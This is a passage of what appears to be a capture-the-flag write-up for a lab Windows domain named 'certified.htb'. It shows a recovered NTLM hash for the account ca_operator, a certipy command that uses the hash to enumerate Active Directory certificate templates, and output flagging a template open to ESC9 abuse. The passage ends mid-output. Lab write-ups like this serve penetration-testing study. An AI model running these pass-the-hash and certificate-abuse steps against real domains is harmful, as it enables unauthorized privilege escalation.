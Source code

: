 This gives us the NTLM hash for `ca_operator`:

```
b4b86f45c6018f1b664f70805f45d8f2
```


## AD CS Enumeration and ESC9 Abuse

My first thought, is to enumerate certificate templates. We can do this using `certipy`

```bash
certipy find -vulnerable -u ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 -dc-ip 10.129.231.186 -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'certified-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA
    DNS Name                            : DC01.certified.htb
    Certificate Subject                 : CN=certified-DC01-CA, DC=certified, DC=htb
    Certificate Serial Number           : 36472F2C180FBB9B4983AD4D60CD5A9D
    Certificate Validity Start          : 2024-05-13 15:33:41+00:00
    Certificate Validity End            : 2124-05-13 15:43:41+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : CERTIFIED.HTB\Administrators
      Access Rights
        ManageCertificates              : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        ManageCa                        : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Enroll                          : CERTIFIED.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication <---
    Display Name                        : Certified Authentication
    Certificate Authorities             : certified-DC01-CA <---
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectAltRequireUpn
    Enrollment Flag                     : NoSecurityExtension
                                          AutoEnrollment
                                          PublishToDs
```